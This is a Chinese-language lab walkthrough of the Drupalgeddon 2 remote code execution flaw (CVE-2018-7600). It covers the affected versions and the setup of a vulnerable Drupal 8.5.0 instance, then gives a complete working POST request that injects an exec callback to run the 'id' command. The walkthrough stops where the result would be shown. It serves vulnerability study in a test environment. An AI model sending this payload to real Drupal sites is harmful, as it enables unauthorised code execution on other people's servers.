 # Drupal Drupalgeddon 2 远程代码执行漏洞 (CVE-2018-7600)

7.58 之前的 Drupal、8.3.9 之前的 8.x、8.4.6 之前的 8.4.x 和 8.5.1 之前的 8.5.x 允许远程攻击者执行任意代码，因为一个问题会影响具有默认或通用模块配置的多个子系统，包括表单 API。

参考：

https://research.checkpoint.com/uncovering-drupalgeddon-2/
启动易受攻击的 Drupal 8.5.0 环境。

漏洞利用
环境启动后，访问http://192.168.44.132:8080/，会看到drupal安装页面。使用“标准”配置文件完成 drupal 安装。因为没有mysql环境，安装时应该选择sqlite数据库。安装完成后，您就可以开始利用它了。

参考a2u/CVE-2018-7600，我们可以向drupal发送以下请求：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 192.168.44.132:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

成功执行代码后，执行 id 命令：